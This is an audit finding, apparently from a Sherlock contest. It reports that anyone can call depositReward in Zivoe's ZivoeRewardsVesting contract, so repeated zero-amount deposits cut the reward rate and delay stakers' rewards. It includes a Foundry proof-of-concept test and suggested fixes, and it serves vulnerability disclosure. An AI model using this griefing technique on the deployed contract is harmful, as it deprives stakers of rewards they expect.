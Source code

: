 Petite Paisley Newt

medium

# Malicious actors can manipulate rewards for ZVE vesting, extending the time to accrue the whole reward

## Summary

[The function](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L352) `depositReward` in `ZivoeRewardsVesting` can be called by anyone, making anyone available to deposit new rewards. However, the formula to calculate the new reward rate is an average of remaining rewards and new rewards divided by rewards duration, which can prolong the time for a staker to accrue all their rewards.

## Vulnerability Detail

Users can deposit any reward token amount to the `ZivoeRewardsVesting` contract. The new reward rate will then be calculated [here](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-foundry/src/ZivoeRewardsVesting.sol#L361) as a sum of original rewards to be distributed and new rewards divided by the reward duration (which is a value set when adding the specific reward token).

If we assume 1e24 reward tokens were deposited to the contract and the `rewardsDuration` is set to 30 days, depositing 0 rewards every 24 hours can have the following results:

| DAY | new reward rate | original reward | accumulated | % original | % total |
| --- | --------------- | --------------- | ----------- | ---------- | ------- |
| 0   | 3,85802E+17     | 0               | 0           | 0,00%      | 0,00%   |
| 1   | 3,72942E+17     | 3,33333E+22     | 3,33333E+22 | 96,67%     | 3,33%   |
| ... | ...             | ...             | ...         | ...        | ...     |
| 15  | 2,32015E+17     | 5E+23           | 3,98617E+23 | 60,14%     | 39,86%  |
| ... | ...             | ...             | ...         | ...        | ...     |
| 30  | 1,3953E+17      | 1E+24           | 6,38338E+23 | 36,17%     | 63,83%  |
| ... | ...             | ...             | ...         | ...        | ...     |
| 60  | 5,04626E+16     | 2E+24           | 8,69201E+23 | 13,08%     | 86,92%  |
| ... | ...             | ...             | ...         | ...        | ...     |
| 68  | 3,84754E+16     | 2,26667E+24     | 9,00272E+23 | 9,97%      | 90,03%  |

This table shows that depositing 0 rewards after 24 hours will cut the original reward rate to 96,67%. After 30 days, only 63,83% of the total reward (which was supposed to be claimed by now) can be claimed. Continuing like this will make it so that after 68 days, only 90% of the original reward can be claimed by stakers.

- **DAY**: number of days since start
- **new reward rate**: new reward rate after depositing 0 rewards on that day
- **original reward**: how much rewards should have been available by that day
- **accumulated**: how much rewards can be claimed on that day in reality
- **% original**: the reward rate compared to the original reward rate
- **% total**: the total reward available to be claimed compared to the original total reward

## Impact

Malicious actors can significantly extend the total time until all the staking rewards are distributed.

## Code Snippet

This test added to [Test_ZivoeRewardsVesting](https://github.com/sherlock-audit/2024-03-zivoe/blob/main/zivoe-core-testing/src/TESTS_Core/Test_ZivoeRewardsVesting.sol) shows that depositing 0 rewards by a malicious actor extends the period by another 30 days and cuts the current reward rate in half.

```Solidity
    function test_depositZeroRewardsWillDecreaseRewards() public {
        uint256 deposit = 1e24;
        uint256 amount = 1e24;

        // deposit 1e24 DAI as rewards
        depositReward_DAI(address(vestZVE), deposit);

        // create vesting schedule for pam
        assert(
            zvl.try_createVestingSchedule(
                address(vestZVE),
                address(pam),
                (amount % 360) + 1,
                ((amount % 360) * 5 + 1),
                (amount % 12_500_000 ether) + 1,
                true
            )
        );

        (, , uint rewardRateStart, , ) = vestZVE.rewardData(DAI);

        hevm.warp(block.timestamp + 15 days);
        uint pamRewardAfter15days = vestZVE.earned(address(pam), DAI);

        (, , uint rewardRateBeforeAttack, , ) = vestZVE.rewardData(DAI);
        // blackhat will deposit 0 tokens and lower the reward rate
        Blackhat blackHat = new Blackhat();
        assert(blackHat.try_depositReward(address(vestZVE), DAI, 0));

        (, , uint rewardRateAfterAttack, , ) = vestZVE.rewardData(DAI);

        // reward rate before attack is the same as the reward rate at the beginning
        assertEq(rewardRateStart, rewardRateBeforeAttack);
        // reward rate after attack will be less as the reward rate before attack
        assertLt(rewardRateAfterAttack, rewardRateBeforeAttack);

        //when other 15 days pass, pam should have at least 2x the rewards as after 15 days, but that is not true
        hevm.warp(block.timestamp + 15 days);
        uint pamRewardAfter30days = vestZVE.earned(address(pam), DAI);
        assertLt(pamRewardAfter30days, 2 * pamRewardAfter15days);
    }
```

## Tool used

Foundry, Manual review, Spreadsheets

## Recommendation

If this function should be open for everybody, consider changing the formula so that the reward rate for the remaining time stays the same.

If the current implementation was intentional, consider adding access control to the deposit reward function so only privileged users can call it.
